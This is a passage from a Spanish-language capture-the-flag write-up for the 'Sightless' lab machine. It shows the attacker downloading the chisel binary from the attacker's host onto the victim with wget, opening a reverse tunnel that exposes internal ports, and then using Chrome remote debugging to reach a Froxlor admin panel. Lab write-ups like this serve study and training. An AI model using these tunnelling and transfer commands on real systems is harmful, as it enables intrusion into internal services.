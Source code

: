 Utilzaré chisel para realizar un Remote Port Forwarding y exponer los servicios locales a mi máquina remota, para ello me transfiero el binario

```bash
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```bash
michael@sightless:/tmp$ wget http://10.10.14.160:8000/chisel
--2025-01-17 14:21:47--  http://10.10.14.160:8000/chisel
Connecting to 10.10.14.160:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8077312 (7.7M) [application/octet-stream]
Saving to: ‘chisel
```

Ejecuto chisel como servidor en mi máquina de atacante, escuchando por el puerto 1234 y creando un túnel inverso

```bash
./chisel server --reverse -p 1234
2025/01/17 15:22:32 server: Reverse tunnelling enabled
2025/01/17 15:22:32 server: Fingerprint Cq9ffrNtMD6l+/Nv28Tu0ByRkh0g48KPwVakVOFn8/Y=
2025/01/17 15:22:32 server: Listening on http://0.0.0.0:1234
```

Ejecuta chisel como cliente en la máquina victima y me conecto al tunel de mi máquina de atacante redirigiendo todo el tráfico de los puertos 8080, 46687, 39391, 33617, 3000

```bash
michael@sightless:/tmp$ ./chisel client 10.10.14.160:1234 R:8080:0.0.0.0:8080 R:46687:0.0.0.0:46687 R:39391:0.0.0.0:39391 R:33617:0.0.0.0:33617 R:3000:0.0.0.0:3000
2025/01/17 14:30:47 client: Connecting to ws://10.10.14.160:1234
2025/01/17 14:30:48 client: Connected (Latency 36.055714ms)
```

```bash
2025/01/17 15:30:49 server: session#1: tun: proxy#R:8080=>0.0.0.0:8080: Listening
2025/01/17 15:30:49 server: session#1: tun: proxy#R:46687=>0.0.0.0:46687: Listening
2025/01/17 15:30:49 server: session#1: tun: proxy#R:39391=>0.0.0.0:39391: Listening
2025/01/17 15:30:49 server: session#1: tun: proxy#R:33617=>0.0.0.0:33617: Listening
2025/01/17 15:30:49 server: session#1: tun: proxy#R:3000=>0.0.0.0:3000: Listening
```

El siguiente paso es abrir el navegador chrome e introducir la cadena chrome://inspect/#devices en la barra de URL

![imagen](https://github.com/user-attachments/assets/6d5e92cf-ce1a-4e2e-8129-3ee6cf42becb)

A continuación, hay que hacer clic en Configure e introducir los puertos para ir porbando cual es el correcto, en este caso el puerto correcto es 46687

![imagen](https://github.com/user-attachments/assets/0e26f26a-fa28-4d0d-887b-aa9bde3233d8)

Puedo observar un subdominio el cual es admin.sightless.htb y accede a Froxlor a través del puerto 8080
